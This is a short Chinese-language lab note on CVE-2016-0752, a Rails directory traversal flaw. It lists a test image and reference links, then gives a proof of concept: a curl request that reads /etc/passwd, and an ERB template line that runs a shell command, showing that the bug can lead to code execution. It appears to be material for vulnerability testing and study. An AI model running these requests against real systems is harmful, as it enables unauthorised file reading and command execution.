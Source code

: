 ## CVE-2016-0752 - rails 框架目录遍历漏洞

测试镜像

* src/ruby-rails/4.0.8/

参考链接

* [forced-request/rails-rce-cve-2016-0752 - Exploiting CVE-2016-0752](https://github.com/forced-request/rails-rce-cve-2016-0752)
* [Rails Dynamic Render to RCE (CVE-2016-0752)](https://nvisium.com/resources/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html)

Poc

```
# 包含文件
curl 'http://127.0.0.1/users/%2fetc%2fpasswd'

# <%= `cp /etc/passwd /tmp` %>
# 还可以在模板里执行命令
```

